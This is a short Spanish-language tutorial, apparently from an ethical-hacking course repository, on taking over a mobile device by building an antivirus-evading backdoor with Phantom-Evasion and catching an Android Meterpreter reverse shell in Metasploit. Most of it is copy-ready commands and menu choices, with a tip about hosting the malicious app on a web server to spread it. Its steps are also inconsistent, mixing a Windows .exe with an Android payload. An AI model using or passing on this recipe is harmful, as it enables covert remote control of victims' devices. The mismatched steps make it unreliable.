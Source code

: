 Usando Metasploit Framework y Phantom-Evasion para acceder al dispositivo móvil.
## Creando un archivo .exe malicioso

Para crear el ejecutable usaremos **Phantom-Evasion** que es un script que sirve para crear backdoors indetectables:

```
git clone https://github.com/oddcod3/Phantom-Evasion.git

cd Phantom-Evasion

chmod u+x phantom-evasion.py

python3 phantom-evasion.py
```

<p align="center">
<img src="./Img/Phantom.png">
</p>

Seleccionaremos la opción 3, luego la opción 1 y enter, en LHOST ingresaremos la IP del atacante, en LPORT 4444 y por ultimo ingresaremos Y

Luego de esto tendremos nuestro backdoor generado ahora lo usaremos en el dispositivo victima.

Ahora iniciaremos msfconsole para poder conectarnos a la pc victima:

```
msfconsole

use exploit/multi/handler

set payload android/meterpreter/reverse_tcp

set LHOST <TU IP>

set LPORT 4444

exploit
```

Como podemos observar hemos conseguido entrar al dispositivo movil. 

![Informatica](Ciberseguridad/Hacking%20Ético%20y%20Pentesting/Pruebas%20de%20penetración%20móvil%20-%20iOS,%20Android%20y%20Windows/Img/sesion.png)

**NOTA:** La aplicación maliciosa podemos subirla a un servidor web y compartir desde el servidor.

**Creditos:** https://github.com/oddcod3/Phantom-Evasion